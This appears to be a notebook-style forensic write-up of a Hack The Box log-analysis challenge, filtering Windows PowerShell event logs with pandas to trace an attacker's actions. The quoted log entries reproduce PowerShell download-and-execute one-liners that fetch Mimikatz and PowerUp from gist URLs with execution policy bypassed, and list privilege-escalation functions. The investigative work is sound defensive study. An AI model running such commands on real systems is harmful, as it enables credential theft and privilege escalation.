

Simple Analysis of Windows Event Viewer Logs
Contents
Simple Analysis of Windows Event Viewer Logs¶
Introduction¶
This analysis is based on the concept of executing specific queries to filter and access particular data. This is why I call it simple, however, good querying skills can be powerful and advanced tool. It relies on the information which has been already given: the attackers compromised the machine, they attempted to clean the evidence of their activity perhaps some trace is hidden in events related to PowerShell.
The task is a part of a challenge Event Horizon on Hack The Box platform (hackthebox.com).
Packages¶
From the standard set of libraries, we will need the following packages:
import matplotlib.pyplot as plt
import numpy as np
import os
import pandas as pd
import re
import seaborn as sns
sns.set()
For loading the data and preprocessing it prior to the analysis, my own, local libraries will be used: for building, cleaning and preprocessing the dataset.
from src.data_cleaning.datasetBuilder import DatasetBuilder
from src.data_cleaning.datasetCleaner import DatasetCleaner
from src.time_analysis.timeStepPreprocessor import TimeStepPreprocessor
Preprocessing¶
First, the dataset is assembled from seperate CSV files representing each log file. They contain data on the events related to different services such as Windows File Recovery, Windows App Container, etc.
After the complete dataset is constructed, the time stamp is split into 2 attributes - one for the date and the other for the time. This allows for grouping the events in an easier way, without calling datetime class methods in order to group by date or hour within a single timestamp attribute.
Finally, when the timestamp information is represented in a more convenient format, the dataset must be prepared for the analysis of details related to each event: all records containing missing values in the Message attribute are discarded. This is because neither would it be possible to work on missing values, nor to perform an accurate imputation based on other variables in a row.
data = DatasetBuilder("src/data").buildDataset()
tsp = TimeStepPreprocessor(data, "TimeCreated")
tsp.preprocessTimeSteps()
data = tsp.preprocessed_date_time
cleaner = DatasetCleaner(data, "Message")
cleaned_data = cleaner.removeNullValues(generate_report=False)
print(data.shape)
print(cleaned_data.shape)
print(str(round(cleaned_data.shape[0] / data.shape[0] * 100, 3)) + "%")
(48231, 28)
(16069, 28)
33.317%
After cleaning the dataset, we will be working with approximately one-third of the original number of records.
Understanding the dataset¶
As a part of data understanding let us study the attributes and their values.
for attribute in cleaned_data.columns:
output = ""
if attribute == "ContainerLog":
output = "---------------"
continue
if isinstance(cleaned_data[attribute].iloc[0], str):
if len(cleaned_data[attribute].iloc[0]) > 50:
output = cleaned_data[attribute].iloc[0][:50]
else:
output = cleaned_data[attribute].iloc[0]
else:
output = cleaned_data[attribute].iloc[0]
print(f"ATTRIBUTE: {attribute} : EXAMPLE VALUE: {output}")
ATTRIBUTE: Message : EXAMPLE VALUE: Capability change on {2e722116-8b3b-472d-a7de-f7de
ATTRIBUTE: Id : EXAMPLE VALUE: 4042
ATTRIBUTE: Version : EXAMPLE VALUE: 0.0
ATTRIBUTE: Qualifiers : EXAMPLE VALUE: nan
ATTRIBUTE: Level : EXAMPLE VALUE: 4
ATTRIBUTE: Task : EXAMPLE VALUE: 0
ATTRIBUTE: Opcode : EXAMPLE VALUE: 0.0
ATTRIBUTE: Keywords : EXAMPLE VALUE: 4611686018427387936
ATTRIBUTE: RecordId : EXAMPLE VALUE: 16
ATTRIBUTE: ProviderName : EXAMPLE VALUE: Microsoft-Windows-NCSI
ATTRIBUTE: ProviderId : EXAMPLE VALUE: 314de49f-ce63-4779-ba2b-d616f6963a88
ATTRIBUTE: LogName : EXAMPLE VALUE: Microsoft-Windows-NCSI/Operational
ATTRIBUTE: ProcessId : EXAMPLE VALUE: 1396.0
ATTRIBUTE: ThreadId : EXAMPLE VALUE: 1448.0
ATTRIBUTE: MachineName : EXAMPLE VALUE: WIN-PTFPHFCRDJ0
ATTRIBUTE: UserId : EXAMPLE VALUE: S-1-5-20
ATTRIBUTE: ActivityId : EXAMPLE VALUE: nan
ATTRIBUTE: RelatedActivityId : EXAMPLE VALUE: nan
ATTRIBUTE: MatchedQueryIds : EXAMPLE VALUE: System.UInt32[]
ATTRIBUTE: Bookmark : EXAMPLE VALUE: System.Diagnostics.Eventing.Reader.EventBookmark
ATTRIBUTE: LevelDisplayName : EXAMPLE VALUE: Information
ATTRIBUTE: OpcodeDisplayName : EXAMPLE VALUE: Info
ATTRIBUTE: TaskDisplayName : EXAMPLE VALUE: nan
ATTRIBUTE: KeywordsDisplayNames : EXAMPLE VALUE: System.Collections.ObjectModel.ReadOnlyCollection`
ATTRIBUTE: Properties : EXAMPLE VALUE: System.Collections.Generic.List`1[System.Diagnosti
ATTRIBUTE: Date : EXAMPLE VALUE: 26/10/2020
ATTRIBUTE: Time : EXAMPLE VALUE: 18:58:15
As well as the summary of the dataset attributes’ values.
cleaned_data.info()
<class 'pandas.core.frame.DataFrame'>
Int64Index: 16069 entries, 0 to 48230
Data columns (total 28 columns):
# Column Non-Null Count Dtype
--- ------ -------------- -----
0 Message 16069 non-null object
1 Id 16069 non-null int64
2 Version 15912 non-null float64
3 Qualifiers 2038 non-null float64
4 Level 16069 non-null int64
5 Task 16069 non-null int64
6 Opcode 15912 non-null float64
7 Keywords 16069 non-null int64
8 RecordId 16069 non-null int64
9 ProviderName 16069 non-null object
10 ProviderId 15912 non-null object
11 LogName 16069 non-null object
12 ProcessId 15912 non-null float64
13 ThreadId 15912 non-null float64
14 MachineName 16069 non-null object
15 UserId 12368 non-null object
16 ActivityId 3882 non-null object
17 RelatedActivityId 0 non-null float64
18 ContainerLog 16069 non-null object
19 MatchedQueryIds 16069 non-null object
20 Bookmark 16069 non-null object
21 LevelDisplayName 16069 non-null object
22 OpcodeDisplayName 14082 non-null object
23 TaskDisplayName 4090 non-null object
24 KeywordsDisplayNames 16069 non-null object
25 Properties 16069 non-null object
26 Date 16069 non-null object
27 Time 16069 non-null object
dtypes: float64(6), int64(5), object(17)
memory usage: 3.6+ MB
As seen above, the most problematic attributes in terms of the missing values are RelatedActivityId, Qualifiers, ActivityId, TaskDisplayName.
Next, a directory to which the reports and visualizations will be saved is created. This allows for keeping outputs organized and to store all the findings to the disk.
if not os.path.isdir("simple_analysis_reports"):
os.mkdir("simple_analysis_reports")
As it is stated in the challenge descriptions, the attackers most likely used PowerShell. This is a key information in the data understanding process (for instance one of the steps in the CRISP-DM methodology), as we can narrow down the queries to only the records which are related to PowerShell processes. Therefore, first we need to find a way to obtain relevant subset of the dataset. In this case, the ProviderName attribute values represent entities or services which manage a task. This can be TaskScheduler, a web authentication service, Windows kernel I/O manager (Microsoft-Windows-Kernel-IO).
print("Example ProviderName entities:\n")
for e in cleaned_data.ProviderName.unique()[:5]:
print(e)
Example ProviderName entities:
Microsoft-Windows-NCSI
Microsoft-Windows-Kernel-PnP
Microsoft-Windows-WMI-Activity
Microsoft-Windows-Security-SPP
VSS
Among these categories there should be some related to PowerShell, we can check which of them contain a substring “power”. To do this, let’s iterate over the unique values again, but this time a conditional statement is added to check if “power” is contained within each of String values of the list. If it is, we print out these values. We get four Strings which match the criterion and we find the most probable one: Microsoft-Windows-PowerShell. We can assume that records with this categorical value in the ProviderName attribute will be relevant for the analysis.
Defining the subset of interest¶
for provider in cleaned_data.ProviderName.unique():
if "power" in provider.lower():
print(provider)
Microsoft-Windows-Kernel-Processor-Power
Microsoft-Windows-Kernel-Power
Microsoft-Windows-UserModePowerService
Microsoft-Windows-PowerShell
We can check the shape of the subset of interest. As seen below, its number of records is 149 and its arity (number of attributes) is 28, as we did not drop nor added any of the columns since data preprocessing.
cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"].shape
(149, 28)
index = 0
for message in cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"]["Message"].iloc[:3]:
index += 1
print(f"MESSAGE {index}\n{message}\n")
MESSAGE 1
Error Message = At line:1 char:1
+ function Invoke-Mimikatz
+ ~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
Fully Qualified Error ID = ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
Context:
Severity = Warning
Host Name = ConsoleHost
Host Version = 5.1.17763.1
Host ID = b9c1b4df-8e46-4c7e-8691-af4dbca27453
Host Application = powershell -ep bypass -c iex(new-object net.webclient).downloadstring('https://gist.githubusercontent.com/phwRi7EUp/146c73e8d28eab5c8b546861e06226e7/raw/881106760796a219711035fba797bafe76f22368/SFRCezhMdTNfNzM0bV9GMHIzdjNSfSAg.ps1');
Engine Version = 5.1.17763.1
Runspace ID = 88aaf2d8-fc40-40bf-8912-af97dbf95eeb
Pipeline ID = 1
Command Name = Invoke-Expression
Command Type = Cmdlet
Script Name =
Command Path =
Sequence Number = 15
User = WIN-PTFPHFCRDJ0\user
Connected User =
Shell ID = Microsoft.PowerShell
User Data:
MESSAGE 2
PowerShell console is ready for user input
MESSAGE 3
Windows PowerShell has started an IPC listening thread on process: 2256 in AppDomain: DefaultAppDomain.
Inspecting the 3 first Event Viewer log messages for records which provider name was Microsoft-Windows-PowerShell disclosed that there was indeed some malicious activity. The first inspected message contained the following information:
Error Message = At line:1 char:1
+ function Invoke-Mimikatz
+ ~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
This is a clear trace of the attackers trying to capture plaintext credentials on the system.
We can save these messages to the outputs directory.
with open("simple_analysis_reports/1_first_powershell_activity_messages.txt", 'w') as fh:
for message in cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"]["Message"][:3]:
fh.write(f"\nMESSAGE:\n{message}\n")
Now, being sure that some malicious activity can be detected in events related to PowerShell, the question is if it is possible to narrow down filtering based on another category.
Considering the attributes that are available, it may be worth checking how many categories of TaskDisplayName are there for the messages from the studied subset.
cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"]["TaskDisplayName"].nunique()
4
As well as what is the distribution of messages in each category.
taskDisplayName_dist = pd.DataFrame(cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"]["TaskDisplayName"].value_counts()).reset_index()
taskDisplayName_dist.columns = ["Task Display Name category", "frequency"]
taskDisplayName_dist
| Task Display Name category | frequency | |
|---|---|---|
| 0 | Execute a Remote Command | 78 |
| 1 | PowerShell Console Startup | 40 |
| 2 | PowerShell Named Pipe IPC | 20 |
| 3 | Executing Pipeline | 11 |
There are 4 unique categories with the major one of “Execute a Remote Command” String value.
Planning the analysis of the malicious events¶
Now, because apparently some scripts loaded in memory triggered AV response and got blocked, they will be studied first. The unique characteristic of these messages is that execution of that script produced an error with a specific description: “This script contains malicious content and has been blocked by your antivirus software.”.
For these messages we want to know:
How many were blocked
Which account executed them
The URLs the script accessed/tried to access
Which functions of the script got blocked
What is the TaskDisplayName for these messages
What is the time and date of these blocked actions
These answers will allow for obtaining a wider view regarding the failed actions.
The analysis of the activity which was blocked or failed¶
First, we want to obtain a corpus of the blocked messages. Although, not to narrow down the search too much, first all scripts which produced an error will be extracted.
failed_scripts = []
for message in cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"]["Message"]:
if "Error Message" in message:
failed_scripts.append(message)
The list of messages which indicate occurrences of scripts which resulted in errors can be compared with a list of scripts which were explicitly flagged as blocked by the AV in terms of their sizes.
blocked_scripts = []
for message in cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"]["Message"]:
if "contains malicious content and has been blocked" in message:
blocked_scripts.append(message)
print("Length of the corpus of messages related to scripts which produced an error: %d" % len(failed_scripts))
print("Length of the corpus of messages related to scripts which were blocked by the AV: %d" % len(blocked_scripts))
Length of the corpus of messages related to scripts which produced an error: 9
Length of the corpus of messages related to scripts which were blocked by the AV: 4
It is quite clear that not all scripts resulted in an error due to the AV reaction alone, therefore, it may be interesting to scrutinize this aspect. Nevertheless, logically, all scripts that produced an error - including those which got blocked - failed at finishing their task, thus they can be treated as a separate branch of this analysis. The questions we may ask is why they failed and what was their purpose. To answer these questions, a list of points enumerated above should be applied.
Still, it might be valuable to obtain a general overview of what are these messages. These lists already contain unique messages.
An overview of the activity which failed¶
with open("simple_analysis_reports/2_failed_scripts_contents_overview.txt", 'w') as fh:
for s in failed_scripts:
fh.write(f"\n{s}\n")
print(failed_scripts[4])
Error Message = Exception calling "Invoke" with "2" argument(s): "Cannot open UsoSvc service on computer '.'."
Fully Qualified Error ID = InvalidOperationException,Get-ServiceReadControlHandle
Context:
Severity = Warning
Host Name = ConsoleHost
Host Version = 5.1.17763.1
Host ID = 64b188be-5af0-47d4-a9d6-934a93dbd615
Host Application = powershell -ep bypass -c IEX (New-Object Net.WeBcLIENT).Downloadstring('https://gist.githubusercontent.com/blueteampathway/c5735d8a38a02e1cb903a53c6ba860e7/raw/e5caae5b0e2537a5891d71d127866733a367add4/gistfile1.txt');Invoke-AllChecks
Engine Version = 5.1.17763.1
Runspace ID = 9584e18e-a650-45d6-828d-f57b3bf92e41
Pipeline ID = 1
Command Name = Get-ServiceReadControlHandle
Command Type = Filter
Script Name =
Command Path =
Sequence Number = 21
User = WIN-PTFPHFCRDJ0\user
Connected User =
Shell ID = Microsoft.PowerShell
User Data:
According to what we can get from these messages, there were 4 attempts to execute Mimikatz in memory by downloading the script using PowerShell from a GitHub repository. All attempts failed and were blocked by the AV. Additonally, there were 5 attempts to download a text file in memory and then executing Invoke-AllChecks. This command is used when executing PowerUp script, which allows for quite an efficient detection of misconfiguration on the targeted system. All in all, this activity was aimed at obtaining information related to privilege escalation vectors.
with open("simple_analysis_reports/3_blocked_scripts_contents_overview.txt", 'w') as fh:
for s in blocked_scripts:
fh.write(f"\n{s}\n")
print(f"\n{blocked_scripts[0]}\n")
print(f"\nThe number of scripts which were blocked: {len(blocked_scripts)}\n")
Error Message = At line:1 char:1
+ function Invoke-Mimikatz
+ ~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
Fully Qualified Error ID = ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
Context:
Severity = Warning
Host Name = ConsoleHost
Host Version = 5.1.17763.1
Host ID = b9c1b4df-8e46-4c7e-8691-af4dbca27453
Host Application = powershell -ep bypass -c iex(new-object net.webclient).downloadstring('https://gist.githubusercontent.com/phwRi7EUp/146c73e8d28eab5c8b546861e06226e7/raw/881106760796a219711035fba797bafe76f22368/SFRCezhMdTNfNzM0bV9GMHIzdjNSfSAg.ps1');
Engine Version = 5.1.17763.1
Runspace ID = 88aaf2d8-fc40-40bf-8912-af97dbf95eeb
Pipeline ID = 1
Command Name = Invoke-Expression
Command Type = Cmdlet
Script Name =
Command Path =
Sequence Number = 15
User = WIN-PTFPHFCRDJ0\user
Connected User =
Shell ID = Microsoft.PowerShell
User Data:
The number of scripts which were blocked: 4
The blocked scripts contained only the Invoke-Mimikatz calls. Perhaps the other statements - those which aimed at downloading some text file on the system - were indirectly related to the credentials dump activity and the NetSetupSvc service failed due to AV response.
Let us come back to the questions asked previously. As the first step to answer them, labels will be assigned to each record in the subset of the dataset which contained PowerShell activity events. The first attribute which will be assigned to the subset of interest, will contain binary values indicating if the activity failed or not.
failed = []
for message in cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"]["Message"]:
if "Error Message" in message:
failed.append(1)
else:
failed.append(0)
# check for potential inconsistency
len(failed) == len(cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"]["Message"])
True
failed = np.array(failed)
failed[failed == 1].shape
(9,)
Assigning additional attributes: user account, URLs, malicious function’s name and its description¶
Now, we will work on this subset in greater detail, therefore, it will be deep-copied to another variable. Deep copy is a copy of values and not of the reference of the array object. Producing such a copy ensures that operating on this subset will not produce changes to the original subset, however, some may say that this is unnecessary as we are working with a copy of this subset anyway, automatically, it is better to have this kind of habit not to be surprised one day.
powershell_df = cleaned_data[cleaned_data.ProviderName == "Microsoft-Windows-PowerShell"].copy(deep=True)
powershell_df = powershell_df.assign(failed=failed)
Then, we will append other values related to the user context, URLs which were part of the message, malicious function’s name and its description.
Let us start with the user context.
user_accounts = []
for message in powershell_df.Message:
if "Context:" in message:
contents = message.split("Context:")[1].split("User Data:")[0]
m = re.search("User = (.+?)\r\n", contents)
if m:
user_accounts.append(m.group(1))
else:
user_accounts.append(None)
powershell_df = powershell_df.assign(UserContext=user_accounts)
Then, we will obtain all URLs that the scripts tried to access.
urls = []
index = 0
for message in powershell_df.Message:
try:
if "http:" in message:
urls.append("http:" + message.split("'http:")[1].split("'")[0])
elif "https:" in message:
urls.append("https:" + message.split("'https:")[1].split("'")[0])
else:
urls.append(None)
except IndexError as ie:
print("Different formatting. The URL is a part of comments. Message ID: %d" % index)
urls.append("http" + message.split("http")[1].split("\n")[0])
continue
index += 1
Different formatting. The URL is a part of comments. Message ID: 42
Different formatting. The URL is a part of comments. Message ID: 59
Different formatting. The URL is a part of comments. Message ID: 59
Different formatting. The URL is a part of comments. Message ID: 59
Different formatting. The URL is a part of comments. Message ID: 65
Different formatting. The URL is a part of comments. Message ID: 68
Different formatting. The URL is a part of comments. Message ID: 68
Different formatting. The URL is a part of comments. Message ID: 69
Different formatting. The URL is a part of comments. Message ID: 69
Different formatting. The URL is a part of comments. Message ID: 75
Different formatting. The URL is a part of comments. Message ID: 92
Different formatting. The URL is a part of comments. Message ID: 92
Different formatting. The URL is a part of comments. Message ID: 98
Different formatting. The URL is a part of comments. Message ID: 98
Different formatting. The URL is a part of comments. Message ID: 100
Different formatting. The URL is a part of comments. Message ID: 100
Different formatting. The URL is a part of comments. Message ID: 101
Different formatting. The URL is a part of comments. Message ID: 101
powershell_df = powershell_df.assign(URLs=urls)
Next, we will extract function’s name.
function_names = []
for message in powershell_df.Message:
if "+ ~~~~~~~~~~~~~~~~~~~~~~~~" in message:
function_names.append(message.split("+ function", 1)[1].split("\n+ ~~~~~~~~~~~~~~~~~~~~~~~~")[0].strip())
elif "function" in message:
function_names.append(message.split("function")[1].split("{")[0].strip())
else:
function_names.append(None)
powershell_df = powershell_df.assign(FunctionName=function_names)
Last but not least, we will get all functions’ descriptions.
functions_descriptions = []
for message in powershell_df.Message:
if ".SYNOPSIS" in message:
functions_descriptions.append(message.split(".SYNOPSIS")[1].split("Author")[0].strip())
elif ".DESCRIPTION" in message:
functions_descriptions.append(message.split(".DESCRIPTION")[1].split(".\n")[0].strip())
else:
functions_descriptions.append(None)
powershell_df = powershell_df.assign(FunctionDescription=functions_descriptions)
Having such a rich, preprocessed dataset, we can answer the questions regarding the actions which failed, as well as those which succeeded.
Malicious activity which got blocked or failed: an overview¶
Having all new attributes required for the further analysis, we can generate a report on the failed activities.
print("1) How many were blocked")
print(sum(powershell_df.failed == 1))
print("\n2) Which account executed them")
for user in powershell_df[powershell_df.failed == 1]["UserContext"].unique():
if user is not None:
print(f"> {user}")
print("\n3) The (unique) URLs the script accessed/tried to access")
to_print = []
for links in powershell_df[powershell_df.failed == 1]["URLs"]:
for link in pd.Series(links).unique():
to_print.append(link)
for url in pd.Series(to_print).unique():
print(f"> {url}")
print("\n4) Which functions of the script got blocked")
for function in powershell_df[powershell_df.failed == 1]["FunctionName"].unique():
if function is not None:
print(f"> {function}")
for description in powershell_df[powershell_df.failed == 1]["FunctionDescription"].unique():
print(f"Description\n> {description}")
print("\n5) What is the TaskDisplayName for these messages")
for taskName in powershell_df[powershell_df.failed == 1]["TaskDisplayName"].unique():
print(f"> {taskName}")
print("\n6) What is the date and time of these blocked actions")
for record in powershell_df[powershell_df.failed == 1][["Date", "Time"]].iterrows():
print(record[1][0], record[1][1])
1) How many were blocked
9
2) Which account executed them
> WIN-PTFPHFCRDJ0\user
3) The (unique) URLs the script accessed/tried to access
> https://gist.githubusercontent.com/phwRi7EUp/146c73e8d28eab5c8b546861e06226e7/raw/881106760796a219711035fba797bafe76f22368/SFRCezhMdTNfNzM0bV9GMHIzdjNSfSAg.ps1
> https://gist.githubusercontent.com/hiddenblueteamer/b1dab4113e5d0b2ed4dfa02d7853aef0/raw/ac9327b6603a911057fed868e725f7cf5a52bca4/SFRCezhMdTNfNzM0bV9GMHIzdjNSfSAg.ps1
> https://gist.githubusercontent.com/blueteampathway/c5735d8a38a02e1cb903a53c6ba860e7/raw/e5caae5b0e2537a5891d71d127866733a367add4/gistfile1.txt
4) Which functions of the script got blocked
> Invoke-Mimikatz
Description
> None
5) What is the TaskDisplayName for these messages
> Executing Pipeline
6) What is the date and time of these blocked actions
26/10/2020 19:39:51
26/10/2020 19:39:33
26/10/2020 08:58:30
26/10/2020 08:54:18
22/10/2020 15:06:59
22/10/2020 15:06:59
22/10/2020 15:06:59
22/10/2020 15:06:59
22/10/2020 15:06:59
And let us save these finding to a text file.
with open("simple_analysis_reports/4_SUMMARY_report_on_failed_actions.txt", 'w') as fh:
fh.write("1) How many were blocked\n")
fh.write(f"{sum(powershell_df.failed == 1)}\n")
fh.write("\n2) Which account executed them\n")
for user in powershell_df[powershell_df.failed == 1]["UserContext"].unique():
if user is not None:
fh.write(f"> {user}\n")
fh.write("\n3) The (unique) URLs the script accessed/tried to access\n")
to_print = []
for links in powershell_df[powershell_df.failed == 1]["URLs"]:
for link in pd.Series(links).unique():
to_print.append(link)
for url in pd.Series(to_print).unique():
fh.write(f"> {url}\n")
fh.write("\n4) Which functions of the script got blocked\n")
for function in powershell_df[powershell_df.failed == 1]["FunctionName"].unique():
if function is not None:
fh.write(f"> {function}\n")
for description in powershell_df[powershell_df.failed == 1]["FunctionDescription"].unique():
fh.write(f"Description\n> {description}\n")
fh.write("\n5) What is the TaskDisplayName for these messages\n")
for taskName in powershell_df[powershell_df.failed == 1]["TaskDisplayName"].unique():
fh.write(f"> {taskName}\n")
fh.write("\n6) What is the date and time of these actions\n")
for record in powershell_df[powershell_df.failed == 1][["Date", "Time"]].iterrows():
fh.write(f"{record[1][0]} {record[1][1]}\n")
All in all, we can conclude that 9 actions were blocked or failed.
One account was used to execute the scripts in its context and this was ‘user’ account on WIN-PTFPHFCRDJ0 device.
There were attempts to access 3 URLs, all of them related to content hosted on GitHub. Only the first one works, the other two return 404 response code upon accessing the URL. The function which was blocked is Invoke-Mimikatz and the script did not provide descriptions on this functionality. Although, the first URL contained the function’s code as well as synopsis section which provides more details on this part of the used script. Mimikatz is an exploit which allows for capturing plaintext credentials from memory. Below, the description obtained by accessing the resource at the first URL address (https://gist.[git]hubusercontent.com/phwRi7EUp):
This script leverages Mimikatz 2.0 and Invoke-ReflectivePEInjection to reflectively load Mimikatz completely in memory. This allows you to do things such as
dump credentials without ever writing the mimikatz binary to disk.
The script has a ComputerName parameter which allows it to be executed against multiple computers.
This script should be able to dump credentials from any version of Windows through Windows 8.1 that has PowerShell v2 or higher installed.
The TaskDisplayName for these actions was Executing Pipeline category only.
We can clearly see that the attempts started on the 22nd and were continued on the 26th October.
We can check the TaskDisplayName attribute in terms of Executing Pipeline categorical value for the successful actions to finish this part of the analysis.
print(len(powershell_df[(powershell_df.failed == 0) & (powershell_df.TaskDisplayName == "Executing Pipeline")]))
2
Now, we can read these two event messages to see what was executed.
for message in powershell_df[(powershell_df.failed == 0) & (powershell_df.TaskDisplayName == "Executing Pipeline")]["Message"]:
print(f"\n{message}\n\n")
CommandInvocation(Add-Type): "Add-Type"
ParameterBinding(Add-Type): name="AssemblyName"; value="System.Core"
Context:
Severity = Informational
Host Name = ConsoleHost
Host Version = 5.1.17763.1
Host ID = 64b188be-5af0-47d4-a9d6-934a93dbd615
Host Application = powershell -ep bypass -c IEX (New-Object Net.WeBcLIENT).Downloadstring('https://gist.githubusercontent.com/blueteampathway/c5735d8a38a02e1cb903a53c6ba860e7/raw/e5caae5b0e2537a5891d71d127866733a367add4/gistfile1.txt');Invoke-AllChecks
Engine Version = 5.1.17763.1
Runspace ID = 9584e18e-a650-45d6-828d-f57b3bf92e41
Pipeline ID = 1
Command Name = Add-Type
Command Type = Cmdlet
Script Name =
Command Path =
Sequence Number = 25
User = WIN-PTFPHFCRDJ0\user
Connected User =
Shell ID = Microsoft.PowerShell
User Data:
CommandInvocation(Add-Type): "Add-Type"
ParameterBinding(Add-Type): name="AssemblyName"; value="System.Security"
Context:
Severity = Informational
Host Name = ConsoleHost
Host Version = 5.1.17763.1
Host ID = 64b188be-5af0-47d4-a9d6-934a93dbd615
Host Application = powershell -ep bypass -c IEX (New-Object Net.WeBcLIENT).Downloadstring('https://gist.githubusercontent.com/blueteampathway/c5735d8a38a02e1cb903a53c6ba860e7/raw/e5caae5b0e2537a5891d71d127866733a367add4/gistfile1.txt');Invoke-AllChecks
Engine Version = 5.1.17763.1
Runspace ID = 9584e18e-a650-45d6-828d-f57b3bf92e41
Pipeline ID = 1
Command Name = Add-Type
Command Type = Cmdlet
Script Name =
Command Path =
Sequence Number = 23
User = WIN-PTFPHFCRDJ0\user
Connected User =
Shell ID = Microsoft.PowerShell
User Data:
with open("simple_analysis_reports/5_executing_pipeline_category_successful_actions.txt", 'w') as fh:
for message in powershell_df[(powershell_df.failed == 0) & (powershell_df.TaskDisplayName == "Executing Pipeline")]["Message"]:
fh.write(f"\n{message}\n\n")
The events suggest that these were successful attempts to download text files, bypassing the execution policy for PowerShell (-ep bypass). Unfortunately, the repository is not found and the investigation based on the assumption that this text file might still exist somewhere on the Internet did not reveal any particular details which could lead to further information on this file.
Successful malicious activity¶
Now, let us focus on the successful actions.
print("1) How many were successful")
print(f"{sum(powershell_df.failed == 0)}")
print("\n2) Which account executed them")
for user in powershell_df[powershell_df.failed == 0]["UserContext"].unique():
if user is not None:
print(f"> {user}")
print("\n3) The (unique) URLs embedded in the scripts:")
to_print = []
for links in powershell_df[powershell_df.failed == 0]["URLs"]:
for link in pd.Series(links, dtype="object").unique():
to_print.append(link)
for url in pd.Series(to_print).unique():
print(f"> {url}")
print("\n4) Which functions of the script got executed")
repetitions = []
for index in range(len(powershell_df[powershell_df.failed == 0])):
function = powershell_df[powershell_df.failed == 0]["FunctionName"].iloc[index]
description = powershell_df[powershell_df.failed == 0]["FunctionDescription"].iloc[index]
if (function is not None) and (function not in repetitions):
print(f"\n> {function}")
repetitions.append(function)
print(f"\nDescription:\n{description}")
else:
continue
print("\n5) What is the TaskDisplayName for these messages")
for taskName in powershell_df[powershell_df.failed == 0]["TaskDisplayName"].unique():
print(f"> {taskName}")
print("\n6) What is the date and time of these actions")
print(powershell_df[powershell_df.failed == 0][["Date", "Time"]].groupby("Date")["Time"].value_counts())
1) How many were successful
140
2) Which account executed them
> WIN-PTFPHFCRDJ0\user
3) The (unique) URLs embedded in the scripts:
> https://gist.githubusercontent.com/blueteampathway/c5735d8a38a02e1cb903a53c6ba860e7/raw/e5caae5b0e2537a5891d71d127866733a367add4/gistfile1.txt
> https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/
> https://github.com/darkoperator/Posh-SecMod/blob/master/PostExploitation/PostExploitation.psm1
> http://www.fuzzysecurity.com/tutorials/16.html
> https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/windows_autologin.rb
> https://www.mandiant.com/blog/malware-persistence-windows-registry/
> http://forum.sysinternals.com/tip-easy-way-to-enable-privileges_topic15745.html
> http://stackoverflow.com/questions/28029872/retrieving-security-descriptor-and-getting-number-for-filesystemrights
> https://raw.githubusercontent.com/mattifestation/PSReflect/master/PSReflect.psm1
> http://www.greyhathacker.net/?p=738
4) Which functions of the script got executed
> Invoke-EventVwrBypass
Description:
Bypasses UAC by performing an image hijack on the .msc file extension
Only tested on Windows 7 and Windows 10
> Write-UserAddMSI
Description:
Writes out a precompiled MSI installer that prompts for a user/group addition.
This function can be used to abuse Get-RegistryAlwaysInstallElevated.
> Get-SiteListPassword
Description:
Retrieves the plaintext passwords for found McAfee's SiteList.xml files.
Based on Jerome Nokin (@funoverip)'s Python solution (in links).
> Get-ModifiableScheduledTaskFile
Description:
Returns scheduled tasks where the current user can modify any file
in the associated task action string.
> Get-RegistryAlwaysInstallElevated
Description:
